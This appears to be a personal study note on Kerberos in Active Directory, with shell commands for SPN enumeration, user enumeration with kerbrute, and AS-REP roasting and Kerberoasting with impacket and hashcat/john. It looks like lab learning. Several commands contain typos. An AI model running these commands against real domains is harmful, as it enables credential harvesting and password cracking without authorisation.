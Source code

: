 Inside the kdc there are the mapped secret keys to users 

KDC is the AS and TGS together: client - AS - TGS - Service

  As-Req = client -> AS
  As-Rep = client <- AS
  TGS-REQ = client -> TGS
  TGS-REP = client <- TGS
  AP-REQ = client -> Service
  AP-REP = client <- Service



```shell
  whoami /upn # gets the kerberos realm that trusts the dc, it groups by kerberos principals
  klist
  setspn -L DC01
  setspn -A HTTP/webserver.<domain_name> <username>
  setspn -L <username>
```

---

### User Enumeration in Kerberos (https://www.youtube.com/watch?v=NylQKulUe9M&list=PLJnLaWkc9xRi71Pso26JlvyBkLUOETLjn&index=6)

```shell
  $users = 1..100 | ForEach-Object { "user$_" }
  $iterations = 5
  for ($i = 0; $i - lt $iterations; $i++) {
    $randomUser = $users | Get-Random
    $samAccountName = $randomUser
    $userPrincipalName = "$randomUser@<domain:name>"
    $givenName = "User"
    $surname = $randomUser
    $password = ConvertTo-SecureString "Password123!" -AsPlainText -Force
    
    New-ADUser -SamAccountName $samAccountName -UserPrincipalName $userPrincipalName -GivenName $givenName -Surname $surname -Name $randomUser -AccountPassword $password -Emabled $true -PassThru
    Write-Host "Created user: $randomUser"
  }

  kerbrute userenum -d <domain_name> --dc <domain_controller_full_domain_name> <username_file>
  net user
```

---

### Roasting Attacks on Kerberos (https://www.youtube.com/watch?v=fVTZEIZIEqg&list=PLJnLaWkc9xRi71Pso26JlvyBkLUOETLjn&index=7)

```shell
  #Check if we can do as-rep roasting, if True then we are good to  exploit
  Get-ADUser -Identity "<username>" -Properties DoesNotRequirePreAuth | Select-Object Name, DoesNotRequirePreAuth
  pip install impacket
  GetNPUsers.py <domain_name>/<username> -dc-ip <dc_ip> -no-pass
  hashcat -m 18200 <hash> <password_file>
  john --wordllist=<passsword_file> <hash>

  #Kerberoasting - we require password of a usre
  GetUserSPNs.py <domain_name>/<username>:"<password>" -dc-ip <dc_ip>
  GetUserSPNs.py <domain_name>/<username>:"<password>" -dc-ip <dc_ip> -request-user kerberoasting
  GetUserSPNs.py <domain_name>/<username>:"<password>" -dc-ip <dc_ip> -request
  john --format=krb5tgs --wordlist=<password_list> <hash>
  hashcat -m 13100 <ticket_file> <password_list>
```
